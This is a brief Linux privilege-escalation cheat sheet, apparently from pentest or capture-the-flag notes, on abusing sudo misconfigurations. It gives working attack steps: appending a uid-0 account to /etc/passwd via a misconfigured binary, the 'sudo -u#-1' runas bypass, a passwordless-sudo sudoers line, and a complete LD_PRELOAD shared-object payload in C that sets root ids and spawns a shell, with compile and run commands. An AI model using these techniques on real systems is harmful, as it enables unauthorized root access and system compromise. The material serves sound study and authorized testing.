 # Sudo 
------

teehee (sudo -l)
-a appends everything to the specified file.
```bash
$ sudo /usr/bin/teehee -a /etc/passwd
noob:$5$cbbncbbn$NR5AzrW84BY0BI0ok8kckJpg9RL8YFoI6LjOjQLip2B:0:0:root:/root:/bin/bash
```

not root on sudo -l :
```bash
(ALL, !root) /bin/bash

sudo -u#-1 /bin/bash
```


Add user to sudoers group:
- If the file /etc/sudoers is world writeable add your user to the sudo group with no password:
```bash
cbbn ALL=(ALL) NOPASSWD:ALL
```



### LD_PRELOAD:
While running sudo -l if we find:
```bash
env_keep+=LD_PRELOAD
```

The user will need sudo access to run some command.

```C
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/sh");  
}
```

Compile the code:
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Execute LD_PRELOAD along with the sudo permissions:
```bash
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/ping
```

-----
